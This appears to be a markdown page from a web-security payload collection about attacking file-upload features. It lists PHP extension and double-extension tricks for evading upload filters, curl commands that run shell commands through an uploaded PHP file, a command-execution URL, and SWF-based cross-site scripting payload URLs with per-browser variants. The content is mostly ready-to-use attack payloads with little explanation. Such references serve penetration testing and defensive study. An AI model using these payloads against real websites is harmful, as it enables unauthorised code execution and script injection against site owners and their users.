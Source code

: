 # Upload
Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Exploits
Image Tragik
```
HTTP Request
Reverse Shell
Touch command
```

PHP Extension
```
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

PNG Bypass a resize - Upload the picture and use a local file inclusion
```
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

JPG Bypass a resize - Upload the picture and use a local file inclusion
```
http://localhost/test.php?c=ls
```

XSS via SWF
```
As you may already know, it is possible to make a website vulnerable to XSS if you can upload/include a SWF file into that website. I am going to represent this SWF file that you can use in your PoCs.

This method is based on [1] and [2], and it has been tested in Google Chrome, Mozilla Firefox, IE9/8; there should not be any problem with other browsers either.

Examples:

Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);

IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}

IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

## Thanks to
* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil

